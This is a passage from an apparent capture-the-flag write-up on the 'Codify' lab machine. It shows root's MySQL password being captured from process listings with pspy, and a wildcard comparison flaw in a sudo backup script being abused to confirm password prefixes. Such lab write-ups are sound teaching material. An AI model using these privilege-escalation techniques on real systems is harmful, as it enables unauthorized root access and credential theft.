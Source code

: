     pspy64              100%[===================>]   2.96M  4.34MB/s    in 0.7s    
    
    2024-04-04 16:37:22 (4.34 MB/s) - ‘pspy64’ saved [3104768/3104768]
    

I’ll set it as executable and run it:

    
    
    joshua@codify:/dev/shm$ ./pspy64          
    pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d 
    ...[snip]...
    

Once it gets through all the start up, in a different session as joshua, I’ll
run the script again, entering “*” as the password. PSpy won’t catch it every
time, but after a run or two, I’ll catch the command line for `mysqldump`:

    
    
    2024/04/04 16:46:17 CMD: UID=0     PID=3758   | /usr/bin/mysql -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 -e SHOW DATABASES; 
    

The password is “kljh12k3jhaskjh12kjh3” (as `-p` is the flag for the
password).

#### Brute Force Password

The trickier route is to abuse the unsafe comparison with wildcards to test
the password. For example if I enter “a*” as the password, it fails:

    
    
    joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh 
    Enter MySQL password for root: 
    Password confirmation failed!
    

If I enter “k*”, it works:

    
    
    joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh 
    Enter MySQL password for root: 
    Password confirmed!
    ...[snip]...
    

I can give the password without waiting for the prompt as well, but piping it
into the process:

    
    
    joshua@codify:~$ echo "*" | sudo /opt/scripts/mysql-backup.sh 
    
    Password confirmed!
    mysql: [Warning] Using a password on the command line interface can be insecure.
    ...[snip]...
    

Putting that together, I can write a Python script that will try all
characters to find the password:

    
    